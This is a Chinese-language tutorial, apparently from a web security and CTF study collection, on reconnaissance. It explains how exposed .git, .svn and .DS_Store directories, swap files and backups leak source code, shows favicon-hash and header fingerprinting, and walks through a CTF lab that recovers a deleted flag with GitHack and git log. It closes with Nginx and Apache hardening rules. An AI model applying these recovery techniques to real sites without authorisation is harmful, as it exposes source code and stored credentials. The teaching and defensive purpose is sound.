

# 🔍 侦察与资产发现深度实战：源码泄露全矩阵还原、指纹测绘识别与目录爆破工程

> **渗透攻防第一定律**：**“未知攻，焉知防；未明敌，不可战。”**
> 在真实的 Web 渗透测试与高水平 CTF 竞赛中，**超过 70% 的致命漏洞突破口并非来自生涩复杂的 0day，而是来自于前期侦察（Reconnaissance）阶段发现的开发疏漏与被遗忘资产**！
> 一份无意遗留在 Web 根目录的 `.git` 文件夹、一个临时编辑生成的 `.swp` 交换文件、或者一个带有默认 Favicon 图标的隐蔽后台，都足以让攻击者在几分钟内拿到系统完整源码或管理员立足点！

---

## 0. 基础前置认知与小白扫盲：源码泄露到底是怎么发生的？

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


### 1. 为什么大公司的源码会白送给黑客？
* 很多初学者以为黑客窃取网站源码靠的是什么惊天动地的黑客软件。
* **残酷的实战真相**：**绝大多数核心源码泄露，纯粹是运维或开发人员粗心大意随手留下的“安全死角”！**
* **三大最常见白送渠道**：
  1. **`.git` 目录泄露（版本控制仓库全盘拷贝）**：
     * 开发人员在服务器上线时，直接使用 `git clone` 部署代码，却忘记了把隐藏的 `.git` 文件夹从公网访问权限中剔除！
     * 黑客利用 `githack` 等工具，能够直接把整个 `.git` 文件夹下载到本地，甚至能用 `git log` 和 `git checkout` 恢复该项目历史上所有的提交记录，包括曾经被删除的数据库密码、云平台 AccessKey！
  2. **编辑器备份残卷（`.swp` / `.~` / `index.php.bak`）**：
     * 运维在 Linux 服务器上用 `vim` 紧急修改 `config.php`，中途连接断开或强制关闭，Vim 会在当前目录下自动保存一个名为 `.config.php.swp` 的隐藏备份文件！
     * 正常访问 `config.php` 会被 PHP 解释执行不露半点源码，但访问 `.config.php.swp` 却会被 Web 服务器当成普通纯文本原样下载！
  3. **整站打包备份留在根目录（`www.zip` / `backup.sql`）**：
     * 运维备份完数据库或网站后随手放在网站根目录忘了删，被黑客的敏感文件字典一秒爆出！

---

## 一、信息收集作战全景与攻击面分类



---

## 二、源码泄露全矩阵深度挖掘与还原技术

在开发与运维流程中，打包失误、直接在服务器调试代码或配置不当，常导致大量敏感源码直接暴露在 Web 根目录下：

### 1. `.git` 源码泄露（最常见、危害最大）

* **成因**：开发者直接使用 `git pull` 或将代码仓库整体部署到 Web 根目录，未配置 Web 服务器拦截对 `.git` 目录的访问。
* **Git 底层存储结构剖析**：
  * `.git/HEAD`：指向当前分支（如 `ref: refs/heads/master`）；
  * `.git/config`：记录远程仓库地址（常包含 GitLab 内部账号密码或内部域名）；
  * **`.git/index`**：二进制索引文件，记录了**当前工作区全部文件的路径名与对应的 SHA-1 哈希值**！
  * **`.git/objects/`**：Git 的对象数据库。文件内容被保存为 **zlib 压缩格式** 的 blob 对象（如前两位哈希为目录名 `objects/1a/2b3c...`）。

#### 🔍 还原工具底层逻辑（GitHack 原理）：
1. 下载 `.git/index` 并解析出所有的文件清单与 SHA-1 值；
2. 针对每个文件，向目标服务器请求 `.git/objects/xx/yyyy...`；
3. 将下载回来的对象使用 Python 的 `zlib.decompress()` 解压，恢复原始文件与目录树！

#### 🧰 CTF 进阶夺旗核心：探查历史 Commit 提交记录
很多出题人会在最新版本中“删除”包含 Flag 或密码的代码，此时直接看恢复的代码是空的！必须使用 Git 命令追溯历史：
```bash
# 查看所有历史提交与注释
git log --stat
# 查看特定提交的详细代码变更 diff (重点关注删除行的代码!)
git show <commit_id>
git log -p
# 强行回退到历史版本
git reset --hard HEAD~1
```

---

### 2. `.svn` 源码泄露

* **成因**：Subversion 版本控制系统遗留。
* **版本特征与还原机制**：
  * **SVN 1.6 及旧版本**：每个子目录下均有 `.svn/entries` 文件，为纯文本文件，直接记录了该目录下的文件名与属性。
  * **SVN 1.7+ 新版本**：根目录下生成 `.svn/wc.db`，为一个标准的 **SQLite 3 数据库**！
    * 查看数据库：`sqlite3 wc.db "SELECT local_relpath, checksum FROM NODES;"`
    * 文件的原始内容以 SHA-1 压缩形式保存在 `.svn/pristine/xx/xxxx.svn-base` 中。
* **利用工具**：`dvcs-ripper` (`rip-svn.pl -u http://target/.svn/`)。

---

### 3. `.DS_Store` 目录结构元数据泄露

* **成因**：macOS 操作系统中，Finder 访问任何目录均会自动生成隐藏文件 `.DS_Store`（Desktop Services Store），记录当前目录的图标位置、视图设置以及**该目录下所有子文件与子文件夹的完整名称**。
* **危害**：即使后端禁用了目录浏览（Directory Listing），通过下载 `.DS_Store` 并解析，攻击者即可获取当前目录下未公开的隐藏目录（如 `/admin_hidden_portal/`、`/backup_2026/`）。
* **利用工具**：`ds_store_exp` (Python)。

---

### 4. 文本编辑器交换文件与临时备份泄露

在 Linux 服务器上使用命令行编辑器在线修改代码时，异常断开会遗留临时文件：

| 泄露文件格式 | 产生场景与还原方案 |
| :--- | :--- |
| **`.index.php.swp`** / **`.swo`** | **Vim 编辑器交换文件**。Vim 在编辑时会在当前目录生成隐藏的 `.swp` 文件。恢复命令：`vim -r index.php` 即可提取全部未保存源码！ |
| **`index.php~`** | Gedit 或某些 Linux 编辑器保存时自动生成的备份文件 |
| **`index.php.bak`** / **`index.php.old`** | 运维人员手动备份原文件 |
| **`.env`** | Laravel / Vue / Node.js 配置文件，通常包含 `APP_KEY`, `DB_PASSWORD`, `REDIS_SECRET` |
| **`web.config`** / **`WEB-INF/web.xml`** | IIS 或 Java Web 核心配置文件 |
| **`www.zip`** / **`web.tar.gz`** | 整站打包备份 |

---

## 三、指纹识别（Fingerprinting）与资产测绘

### 1. Favicon 图标哈希识别（MurmurHash3 `mmh3` 算法）

很多 Web 系统、开源组件（如 Spring Boot、Shiro、Nacos、Jenkins）使用默认的网站图标 `favicon.ico`。
网络安全界采用 **MurmurHash3（mmh3）** 算法对图标进行哈希运算，并在网络空间测绘引擎中批量检索相同资产。

#### 🐍 Favicon Hash 计算 Python 脚本：
```python
import mmh3
import requests
import codecs

# 1. 下载目标网站的 favicon.ico
response = requests.get('http://target.ctf:8080/favicon.ico')
# 2. 转换为标准 Base64 字符串
favicon_b64 = codecs.encode(response.content, 'base64')
# 3. 使用 mmh3 进行 32 位哈希计算
hash_value = mmh3.hash(favicon_b64)
print(f"[+] Favicon MMH3 Hash: {hash_value}")
```

#### 🔍 网络空间测绘引擎检索语法矩阵：
* **FOFA**：`icon_hash="116323821"` (Spring Boot 经典绿叶标)
* **Hunter (鹰图)**：`web.icon=="116323821"`
* **Shodan**：`http.favicon.hash:116323821`

---

### 2. HTTP 响应标头与 Cookie 特征判别

| 特征响应字段 | 指示的底层中间件 / 框架 |
| :--- | :--- |
| **`Set-Cookie: rememberMe=deleteMe`** | **Apache Shiro 绝对指纹！**（存在反序列化高危利用面） |
| **`X-Powered-By: PHP/7.4.3`** | 精准确定 PHP 版本，排查已知 CVE |
| **`Server: Apache-Coyote/1.1`** | 指示后端运行在 Apache Tomcat 容器 |
| **`Set-Cookie: PHPSESSID=...`** | 后端采用 PHP 原生 Session 管理 |
| **`Set-Cookie: JSESSIONID=...`** | 后端采用 Java Servlet 容器 |

---

## 四、CTF 实战靶场案例复现（.git 源码泄露与版本回退夺旗）

### 靶场情境：受保护的在线留言板

页面功能极简，所有输入均经过了转义，看似无漏洞可钻。

#### 1. 目录模糊测试与发现
使用 `dirsearch` 扫描目标网站：
```bash
dirsearch -u http://challenge.ctf:8080/ -e php,txt,zip,bak
```
输出结果显示：
```text
[200] http://challenge.ctf:8080/.git/HEAD
[200] http://challenge.ctf:8080/.git/index
```
确认存在完整的 `.git` 目录暴露！

#### 2. 使用 GitHack 下载并恢复仓库
```bash
python3 GitHack.py http://challenge.ctf:8080/.git/
```
工具成功在本地生成工作目录，提取出 `index.php` 与 `config.php`。
然而，打开 `config.php` 发现内容如下：
```php
<?php
// Flag was deleted for security reasons.
$flag = "REMOVED";
?>
```

#### 3. 深入 Git 历史提交版本库（`git log` 溯源）
进入恢复出的本地 git 目录，执行日志审计：
```bash
git log -p
```
终端输出历史提交差异：
```diff
commit a8f9c0e21b8d743a123456789abcdef012345678
Author: admin <admin@ctf.local>
Date:   Sun Oct 11 22:15:30 2026 +0800

    remove sensitive flag before deployment

diff --git a/config.php b/config.php
index 789abc..123def 100644
--- a/config.php
+++ b/config.php
@@ -1,4 +1,4 @@
 <?php
-$flag = "flag{g1t_l34k_h1st0ry_c0mm1t_r3st0r3_pr0}";
+$flag = "REMOVED";
 ?>
```
通过 Git 历史 Commit 差异对比，成功从已被删除的历史记录中完整提取出初始 Flag！

---

## 五、安全防护与上线加固规范

1. **Web 服务器全局拦截隐藏文件（防范 `.git`, `.svn`, `.env`）**：
   * **Nginx 配置规则**：
     ```nginx
     # 禁止访问所有以点开头的隐藏目录与文件
     location ~ /\. {
         deny all;
         access_log off;
         log_not_found off;
     }
     ```
   * **Apache 配置规则**：
     ```apache
     <DirectoryMatch "^\.|\/\.">
         Require all denied
     </DirectoryMatch>
     ```
2. **CI/CD 自动化构建流水线脱敏**：
   * 在代码打包发布时，使用 `.dockerignore` 或打包脚本严格剔除 `.git`, `.svn`, `.idea`, `.vscode` 等开发目录；
   * 严禁在线使用编辑器临时调试代码，禁止在 Web 根目录下生成 `.bak`, `.zip` 备份文件。

---

## 🔗 相关双向链接
- 上级模块：[[01-Web基础与信息收集]]
- 协议基础：[[01-HTTP与HTTPS协议深层机制与请求报文走私基础]]
- 架构基础：[[02-Web架构全景：服务器、中间件、后端语言与数据库交互]]
- 进阶漏洞：[[02-SQL注入体系/01-基础与注入检测/SQL注入分类与闭合判断深度精解]]
- 知识地图：[[00-Web安全与CTF知识地图总览]]
